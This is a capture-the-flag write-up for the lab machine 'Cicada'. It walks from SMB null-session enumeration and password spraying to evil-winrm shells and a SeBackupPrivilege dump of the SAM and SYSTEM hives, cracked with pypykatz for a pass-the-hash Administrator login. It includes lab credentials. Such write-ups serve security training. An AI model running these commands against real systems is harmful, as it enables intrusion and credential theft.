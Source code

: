 ```yaml
---
title: Cicada Writeup(Easy)
published: true
---
```


![machine logo](/assets/cicada/logo.png)

# [](#header-2)Recognition

First of all we do a scan with nmap:

```bash
sudo nmap -sS -p- --open --min-rate 5000 10.129.217.34 -n -Pn -oG ports -v
```

The nmap command reported the following ports:
*   Port 15
*   Port 88
*   Port 135
*   Port 139
*   Port 389
*   Port 445
*   Port 593
*   Port 636
*   Port 3268
*   Port 3269
*   Port 5985
*   Port 54115

We do a second, more advanced scan:

```bash
sudo nmap -sCV -p53,88,135,139,389,445,593,636,3268,3269,5985,54115 10.129.217.34 -oN escaneo
```

The scan reports the following information:

![nmap scan](/assets/cicada/nmapScan.png)

Here we can see that the **smb** port is open so we can try to connect using a null session

![smbclient scan](/assets/cicada/smbClientStartScan.png)

Looking in all the directories we find one with interesting information, in the **HR directory** there is a **password** but whe don't know the user

![HR folder content](/assets/cicada/HRContent.png)

To get the file we use this commands:

```bash
smb: \> recurse on
smb: \> mget *
```

![Notice file content](/assets/cicada/noticeContent.png)

Using the following command we find a list of users:

```bash
impacket-lookupsid -no-pass guest@10.129.217.34
```

Now we need to create a file with the users and fuzz them with **crackmapexec**

![Crackmapexec fuzz](/assets/cicada/crackmapexecFuzz.png)

Having the credentials for the user **michael.wrightson** we can list the users with smb

![Crackmapexec list users](/assets/cicada/crackmapexecUsers.png)

In the results we see a comment in the user **david.orelious** with his **password**

Now if we list the shares again we will see a new one with the name **DEV**

![Crackmapexec list shares](/assets/cicada/crackmapexecListShares.png)

With **smbclient** enter in the **DEV** folder

```bash
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //10.129.217.34/DEV
```

Here we see a file **"Backup_script.ps1"** and openning this we find some **credentials**

![Backup file with credentials](/assets/cicada/backupCred.png)

With crackmapexec we see that we pwned the user

![Crackmapexec winrm](/assets/cicada/crackmapexecWinrm.png)

# [](#header-2)Explotation

Using **evil-winrm** we get a shell

```bash
evil-winrm -i 10.129.217.34 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Now we can find the **user flag** in the desktop

![User flag](/assets/cicada/userFlag.png)

# [](#header-2)Privilege Escalation

If whe do a **whoami /all** we see the **backups** privilege

![User privileges list](/assets/cicada/privileges.png)

If we search for this privilege we find this [page](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

Following the steps we can get the **root hash**

```bash
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
cd Temp
download sam
download system
```

Now in our system we run the following command:

```bash
pypykatz registry --sam sam system
```

![Administrator hash](/assets/cicada/rootHash.png)

With this we can use the **NTLM Hash** to connect with an **evil-winrm session**

![Winrm session as Administrator](/assets/cicada/adminWinrm.png)

Now we have a **shell** we go to the desktop and get the **root flag**

![Root flag](/assets/cicada/rootFlag.png)
